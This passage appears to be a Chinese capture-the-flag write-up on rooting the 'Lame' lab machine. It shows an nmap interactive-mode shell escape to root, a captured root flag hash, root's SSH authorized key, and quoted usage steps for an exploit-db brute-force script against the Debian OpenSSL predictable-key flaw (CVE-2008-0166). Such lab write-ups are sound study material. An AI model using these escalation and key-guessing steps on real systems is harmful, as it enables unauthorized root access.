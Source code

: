 ```
 daemon@lame:/tmp$ nmap --interactive
 nmap --interactive
 
 Starting Nmap V. 4.53 ( http://insecure.org )
 Welcome to Interactive Mode -- press h &lt;enter&gt; for help
 nmap&gt; !sh
 !sh
 sh-3.2# whoami
 whoami
 root
 sh-3.2# cat /root/root.txt
 cat /root/root.txt
 29ad7975c49f5ccb49b735a93efbfc4e
```

### 提权2：ssh key

```shell
 daemon@lame:/tmp$ cat /root/.ssh/authorized_keys
 cat /root/.ssh/authorized_keys
 ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh&#43;WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U&#43;qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE&#43;kcP&#43;Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc&#43;Wv8Vw7bwkf&#43;1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== msfadmin@metasploitable
```

看到msfadmin@metasploitable，最初以为是其他攻击方式留下的，重置主机后发现还是存在，说明是个线索，但是我不知道是什么。参考文章2告诉我是 `CVE-2008-0166` 的线索，没了解过，`$ searchsploit cve-2008-0166` 无过，上网搜。

&gt; OpenSSL 0.9.8c-1 up to versions before 0.9.8g-9 on Debian-based operating systems uses a random number generator that generates predictable numbers, which makes it easier for remote attackers to conduct brute force guessing attacks against cryptographic keys.
&gt;
&gt; ——https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-0166
&gt;
&gt; 翻译：基于 Debian 的操作系统上的 OpenSSL 0.9.8c-1 到 0.9.8g-9 之前的版本使用随机数生成器生成可预测的数字，这使得远程攻击者更容易对加密密钥进行暴力猜测攻击。

expdb搜索：https://www.exploit-db.com/search?cve=2008-0166

看了一个利用脚本，描述步骤如下：

```shell
 # https://www.exploit-db.com/exploits/5720
 # Autor: hitz - WarCat team (warcat.no-ip.org)
 # Collaborator: pretoriano
 #
 # 1. Download https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2 (debian_ssh_rsa_2048_x86.tar.bz2)
 #
 # 2. Extract it to a directory
 #
 # 3. Execute the python script
 #     - something like: python exploit.py /home/hitz/keys 192.168.1.240 root 22 5
 #     - execute: python exploit.py (without parameters) to display the help
 #     - if the key is found, the script shows something like that:
 #         Key Found in file: ba7a6b3be3dac7dcd359w20b4afd5143-1121
 # Execute: ssh -lroot -p22 -i /home/hitz/keys/ba7a6b3be3dac7dcd359w20b4afd5143-1121 192.168.1.240
 ############################################################################
```
